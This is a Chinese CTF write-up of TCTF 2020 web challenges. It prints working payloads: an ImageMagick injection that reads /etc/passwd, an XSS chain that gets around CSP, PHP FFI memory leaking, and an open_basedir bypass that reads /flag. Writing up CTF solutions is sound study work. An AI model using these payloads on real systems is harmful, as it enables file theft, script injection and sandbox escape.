 date: 2020-06-30
categories:
- 比赛
tags:
- wp
- ctf
title: tctf2020
---
# tctf2020

好难.jpg



## Wechat Generator

这题在我们一堆人的群殴下才做出来

题目主要的http请求是：

![image130](https://raw.githubusercontent.com/Explorersss/photo/master/20200629195954.png)



![image216](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200021.png)

与

```
http://pwnable.org:5000/image/VMyeGe/xxx
xxx是后缀，具体列表在：https://imagemagick.org/script/formats.php
```





### 第一部分 ImageMagick读取文件

测试share发现，无论我们输入的previewid时候存在，都会生成一个短链

![image480](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200254.png)

访问对应的png界面时: http://pwnable.org:5000//image/ZpVQfl/png 

返回报错

```
{"error": "Convert exception: unable to open image `previews/testting': No such file or directory @ error/blob.c/OpenBlob/2874"}
```

根据报错猜测是ImageMagick 来转换成对应的后缀

fuzz后缀后发现：

```
http://pwnable.org:5000/image/FdrpgF/htm
```

![image857](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200643.png)

根据preview返回的数据，后端估计是先生成一个svg,再转化为其他的格式

我们再看看他们是如何传递并表示表情的

![image1001](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200926.png)

![image1085](https://raw.githubusercontent.com/Explorersss/photo/master/20200629201154.png)

发现

![image1173](https://raw.githubusercontent.com/Explorersss/photo/master/20200629201349.png)

修改[]里的值可以逃出引号的限制

```
[{"type":0,"message":"[../../image/mOFJpl/svg#\"></g></svg><script srsrcc=\"/image/kOmxqd/jpg?callback=aaa\"></script><svg><g><image xlink:href=\"]"}]
```



![image1437](https://raw.githubusercontent.com/Explorersss/photo/master/20200629225818.png)



搜索**ImageMagick convert ctf** 发现，ImageMagick convert可以[读取文件](https://blog.bushwhackers.ru/googlectf-2019-gphotos-writeup/)

构造:

```
------WebKitFormBoundaryHJ88AZN7
Content-Disposition: form-data; name="data"

[{"type":0,"message":"[\" href=\"text:/etc/passwd\" onerror=\"//]"}]
------WebKitFormBoundaryHJ88AZN7--
```



![image1845](https://raw.githubusercontent.com/Explorersss/photo/master/20200629230827.png)



测试常见的文件后找到源文件：app.py

![image1953](https://raw.githubusercontent.com/Explorersss/photo/master/20200629230936.png)

这里我们重点关注responseJSON和 secret这两个函数

### 第二部分 xss管理员

secret是让我们xss管理员，但是存在csp:

```
img-src * data:; default-src 'self'; style-src 'self' 'unsafe-inline'; connect-src 'self'; object-src 'none'; base-uri 'self'
```



responseJSON可以让我们在json数据前加上xxx=,结合报错返回的数据是json格式，如果我们能控制报错信息，我们就能绕过csp

前文发现 ImageMagick 的那个接口(share)刚好可以控制报错信息

```
previewid=`test"},alert(1),{"2":"
```

![image2409](https://raw.githubusercontent.com/Explorersss/photo/master/20200629231535.png)

接着就是让htm包含它：



```
[{"type":0,"message":"[../../image/mOFJpl/svg#\"></g></svg><link rel=\"stylesheet\" href=\"/static/css/bootstrap.min.css\"><script ssrcrc=\"/static/js/jquery-3.5.1.min.js\"></script><script ssrcrc=\"/static/js/bootstrap.min.js\"></script><script srsrcc=\"/image/kOmxqd/jpg?callback=aaa\"></script><svg><g><image xlink:href=\"]"}]
```

![image2848](https://raw.githubusercontent.com/Explorersss/photo/master/20200629231806.png)





![image2936](https://raw.githubusercontent.com/Explorersss/photo/master/20200629231854.png)

### 其他解法



一叶飘零大大的wp：

 https://skysec.top/2020/06/27/2020-TCTF-Online-Web-WriteUp/#Wechat-Generator 





## easyphp

```
 <?php
if (isset($_GET['rh'])) {
    eval($_GET['rh']);
} else {
    show_source(__FILE__);
}
```

很简单的源代码,首先查看phpinfo:

![image3265](https://raw.githubusercontent.com/Explorersss/photo/master/20200629232130.png)

open_basedir: /var/www/html 且该目录不可写，twitter上那个绕过open_basedir的方法就没用了

利用

```
$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
```

列目录：

```
bin dev etc flag.h flag.so home lib media mnt opt proc root run sbin srv start.sh sys tmp usr var
```

看到flag.h+flag.so+ffi猜测是要用ffi来加载flag.h然后执行其中的方法，

测试后发现 ffi::load 无视open_basedir ,但是只能加载 /flag.h

当我们又不知道flag.h中的函数定义。。。。。。

后来这题是因为别人把题目打穿了，全场绕过open_basedir，读取了flag



## noeasyphp

这题听说是因为出题人因为easyphp重出的题目

这里就要直面刚刚明明无法读取flag.h又要了解flag.h中的函数声明

因为这里有ffi，可以直接操作系统的底层，我们试试内存泄露

```php
$c=FFI::load("/flag.h");
$b=FFI::cast("void *",FFI::new("int[1]",false));
$a=FFI::string($b-400000,400000);
var_dump($a);

```



![image4044](https://raw.githubusercontent.com/Explorersss/photo/master/20200630000339.png)

![image4128](https://raw.githubusercontent.com/Explorersss/photo/master/20200630000414.png)

好玩.jpg



## Cloud Computing

```php
<?php mkdir('/var/www/html/sandbox/362495b25219141379062025d7d6d775772e6b7d/test2');chdir('/var/www/html/sandbox/362495b25219141379062025d7d6d775772e6b7d/test2');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('/flag'));
```



